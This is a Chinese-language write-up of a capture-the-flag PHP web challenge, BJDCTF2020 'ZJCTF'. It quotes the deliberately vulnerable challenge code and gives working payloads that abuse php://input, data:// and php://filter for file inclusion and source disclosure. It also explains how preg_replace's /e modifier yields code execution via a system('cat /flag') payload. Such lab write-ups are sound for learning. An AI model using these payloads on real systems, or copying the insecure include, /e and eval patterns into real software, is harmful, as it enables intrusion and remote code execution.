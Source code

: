 # \[BJDCTF2020]ZJCTF，不过如此

## \[BJDCTF2020]ZJCTF，不过如此

## 考点

* 用php://input绕过file\_get\_contents的内容限制
* 文件包含配合伪协议读取文件
* `preg_replace`的`/e`模式可以进行代码执行
* PHP正则表达式`\s`表示只要出现空白就匹配，`\S`表示非空白就匹配，`*`表示匹配任意次

## wp

给了代码

```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
```

```
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=next.php

I have a dream
```

或者是

```
?text=data:text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

得到next.php源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

preg\_replace的定义如下

```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

在`complex()`函数中使用了`preg_replace`的`/e`模式，会把`$replacement`当做php代码来执行，但是本题第二个参数却固定为`'strtolower("\\1")'`字符串

上面的命令执行，相当于 `eval('strtolower("\\1");')` ，其中的 `\\1` 实际上就是 `\1` ，而 `\1` 在正则表达式中有自己的含义。

> 对一个正则表达式模式或部分模式 <mark style="color:orange;">两边添加圆括号</mark> 将导致相关 <mark style="color:orange;">匹配存储到一个临时缓冲区</mark> 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

这里的 `\1` 实际上指定的是第一个子匹配项，那么就需要控制正则表达式让它匹配我们的shell。这样在代码执行时就是`eval(strtolower("$shell"));`

payload：`\S*=${phpinfo()}`

<mark style="color:orange;">在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。 ${phpinfo()} 中的 phpinfo() 会被当做变量先执行</mark>，执行后，即变成 `${1}`。

payload：`next.php?\S*=${getFlag()}&cmd=system("cat /flag");`

## 小结

1. [深入研究preg\_replace与代码执行](https://xz.aliyun.com/t/2557)
